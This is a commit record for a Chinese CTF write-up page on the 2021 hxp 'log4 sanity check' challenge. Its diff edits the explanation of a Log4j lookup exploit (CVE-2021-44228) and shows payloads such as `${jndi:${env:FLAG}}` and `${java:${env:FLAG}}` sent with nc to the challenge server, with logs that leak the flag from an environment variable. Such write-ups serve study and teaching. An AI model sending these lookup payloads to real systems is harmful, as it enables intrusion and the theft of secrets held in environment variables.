

Before and after one commit to YanhuiJessica/Chictf-Writeups, an MkDocs documentation site: the page built from docs/misc/log4_sanity_check.md, in a window 1280 px wide and 1400 px high, scrolled down 333 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1688 px from its top, so only the background shows below that.

Commit message:
表述修正

````diff
--- a/docs/misc/log4_sanity_check.md
+++ b/docs/misc/log4_sanity_check.md
@@ -14,6 +14,7 @@ description: 2021 | HXPCTF | MSC
 - 恰逢近期在修补 Log4j 相关的漏洞（CVE-2021-44228） ΣΣΣ(Φ ωΦ||¡)
 - Log4j 除了能够记录文本外，还可以使用简单表达式记录动态内容，[Log4j – Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
 - 使用 Java Decompiler 查看 `Vuln.class` 代码。注意到当输入不包含 `dragon` 或 `hxp` 时，会使用到 `logger`，为漏洞点
+    - 只有执行异常时才会触发 `System.err.println(exception)`，看到 Lookups 解析后的结果
 
     ```java
     import java.util.Scanner;
@@ -43,24 +44,15 @@ description: 2021 | HXPCTF | MSC
     }
     ```
 
-- 找到了漏洞点，可以简单地测试一下
-
-    ```bash
-    $ nc 65.108.176.77 1337
-    What is your favourite CTF?
-    ${jndi:${java:os}}
-    :(
-    2021-12-20 03:01:29,326 main WARN Error looking up JNDI resource [Linux 5.10.0-9-amd64 unknown, architecture: amd64-64]. javax.naming.NoInitialContextException: Need to specify class name in environment or system property, or in an application resource file: java.naming.factory.initial
-    ...
-    ```
-
 - 那么 Flag 在哪里呢？看看 `Dockerfile`，发现 Flag 已经写到环境变量里了！
 
     ```bash
     CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"
     ```
 
-- 那么接下来就很简单了~利用 Environment Lookup 就可以轻松拿到 Flag：`hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}`
+- 那么接下来就很简单了~
+    - 首先，需要使用 Environment Lookup 取得环境变量中的 Flag：`${env:FLAG}`
+    - 为了触发异常，再把 Environment Lookup 嵌套到其它查找失败会触发异常的 Lookups，如 `java`、`jndi`
 
     ```bash
     $ nc 65.108.176.77 1337
@@ -68,4 +60,11 @@ description: 2021 | HXPCTF | MSC
     ${jndi:${env:FLAG}}
     :(
     2021-12-20 03:18:44,730 main WARN Error looking up JNDI resource [hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.NoInitialContextException: Need to specify class name in environment or system property, or in an application resource file: java.naming.factory.initial
+    ...
+    $ nc 65.108.176.77 1337
+    What is your favourite CTF?
+    ${java:${env:FLAG}}
+    :(
+    2021-12-20 08:10:40,151 main ERROR An exception occurred processing Appender Console java.lang.IllegalArgumentException: hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}
+    ...
     ```
````
